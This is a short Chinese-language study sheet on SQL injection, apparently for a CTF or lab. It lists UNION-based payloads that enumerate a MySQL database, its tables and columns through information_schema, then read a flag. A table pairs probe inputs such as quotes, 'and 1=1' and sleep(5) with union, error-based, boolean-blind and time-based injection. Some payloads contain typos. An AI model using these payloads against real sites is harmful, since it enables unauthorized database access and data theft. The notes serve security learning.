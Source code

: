 

# SQL注入思路

- 爆字段    order by 
- 爆出当前网页的数据库名称-1 union select 1,database(),3
- 爆表：-1 union select 1,group_concat(table_name),3from information_schema.tables table_schema=‘xxx’#数据库名称
- 爆列：-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=‘dwvs’ and table_name=‘xxx’#列名
- 爆数据：-1 union select 1,flag,3 from dwvs.flag#

**常用参数**

**information_schema.tables：记录所有表名信息的表**

**information_schema.columns：记录所有列名信息的表**

**table_name：表名**

**column_name：列名**

**tables_schema：数据库名**

**user()：查看当前mysql登录的用户名**

**databses()：查看当前使用mysql的数据库名**

**version：查看当前mysql版本信息**



# 判断注入点

**在疑似注入点的地方或者参数后面尝试提交数据，从而进行判断是否存在SQL注入漏洞**

| 测试数据           | 测试判断                                                     | 攻击思路 |
| ------------------ | ------------------------------------------------------------ | -------- |
| -1或+1             | 是否能够回显上一个或下一个页面(判断是否有回显)               | 联合注入 |
| '  或  "           | 是否显示数据库错误信息，回显的页面是否不同(字符型还是数值型) | 报错注入 |
| and 1=1或 and 1 =2 | 回显的页面是否不同(判断页面是否有布尔类型的状态)             | 布尔盲注 |
| and slepp(5)       | 判断页面的返回时间                                           | 延时注入 |
| \                  | 判断是否转义                                                 |          |



## 单引号判断法

**单引号判断法，在输入的参数中添加引号，因为无论是字符型还是整形输入都会由于多了单引号而导致最后拼接的sql语句单引号个数不匹配而报错**



## GET注入
